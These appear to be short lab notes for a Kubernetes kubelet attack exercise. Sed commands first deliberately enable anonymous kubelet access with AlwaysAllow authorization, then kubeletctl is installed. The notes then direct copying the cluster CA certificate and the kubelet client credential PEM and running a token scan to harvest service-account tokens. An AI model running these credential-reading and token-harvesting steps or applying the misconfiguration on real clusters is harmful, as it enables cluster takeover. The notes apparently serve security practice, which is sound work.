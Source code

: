 # Setup
```bash
sudo sed -i -e 's/enabled: false/enabled: true/' -e 's/mode: Webhook/mode: AlwaysAllow/' /var/lib/kubelet/config.yaml

sudo systemctl restart kubelet

curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.12/kubeletctl_linux_amd64 && chmod a+x ./kubeletctl_linux_amd64 && sudo mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```
# Attack

uses undocumented k8s apis
kubeletctl shorthand tool https://www.cyberark.com/resources/threat-research-blog/using-kubelet-client-to-attack-the-kubernetes-cluster

requries privileges!

# You MUST do this:

- cat /etc/kubernetes/pki/ca.crt save to ~/Desktop
- sudo cat /var/lib/kubelet/pki/kubelet-client-current.pem save to ~/Desktop

```bash
kubeletctl scan token

```